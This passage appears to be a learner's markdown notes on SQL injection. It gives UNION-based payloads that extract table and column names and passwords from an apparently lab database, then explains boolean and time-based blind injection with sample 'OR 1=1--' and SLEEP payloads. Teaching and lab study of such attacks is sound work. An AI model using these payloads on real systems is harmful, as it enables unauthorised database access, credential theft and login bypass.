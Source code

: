 	```sql
	jeremy` UNION SELECT null, null, version()#
	jeremy` UNION SELECT null, null, table_name from information_schema.tables#
	```
	- Getting The Columns Names
	```sql
	jeremy` UNION SELECT null, null, column_name from information_schema.columns#
	```
	- Getting Data From The Table
	```sql
	jeremy` UNION SELECT null, null, password from injection0x01#
	```

#### Blind SQL Injection
##### Overview
Blind SQL injection is a type of SQL injection attack where an attacker can exploit a vulnerability to inject malicious SQL code into an application's input fields, but the results of the injected SQL query are not directly visible in the application's response. Instead, the attacker must rely on the application's behavior to infer the success or failure of the injected SQL query.

Blind SQL injection attacks are usually encountered when the application filters or sanitizes the user input in such a way that the injected SQL code does not produce visible output in the application's response. As a result, the attacker cannot directly observe the results of the injected SQL query, making the attack more challenging but not impossible.

Blind SQL injection can be categorized into two main types:
1. **Boolean-Based Blind SQL Injection:** 
	- In this type of blind SQL injection, the attacker injects malicious SQL code that results in a condition that is either true or false. The application's response may vary depending on whether the injected condition evaluates to true or false. The attacker then uses this variation in the application's behavior to infer information about the database.
	```sql
	SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
	```
	- If the attacker injects the following into the username field: `' OR 1=1--` The resulting query will be:
	```sql
	SELECT * FROM users WHERE username = '' OR 1=1-- AND password = 'input_password';
	```
	- If the application responds differently when the query returns any result (true) versus no result (false), the attacker can infer that the injected condition `' OR 1=1--` evaluates to true, and they can use this to bypass authentication.
2. **Time-Based Blind SQL Injection:** 
	- In this type of blind SQL injection, the attacker injects malicious SQL code that causes time delays in the application's response. The attacker then observes the response time to determine whether the injected condition is true or false.
	```sql
	SELECT * FROM products WHERE product_id = 'input_product_id';
	```
	- If the attacker injects the following into the product_id field: `' OR IF(1=1, SLEEP(5), 0)--` The resulting query will be:
	```sql
	SELECT * FROM products WHERE product_id = '' OR IF(1=1, SLEEP(5), 0)--;
	```
	- If the application delays the response by approximately 5 seconds when the injected condition `' OR IF(1=1, SLEEP(5), 0)--` is true, the attacker can infer that the condition is true.
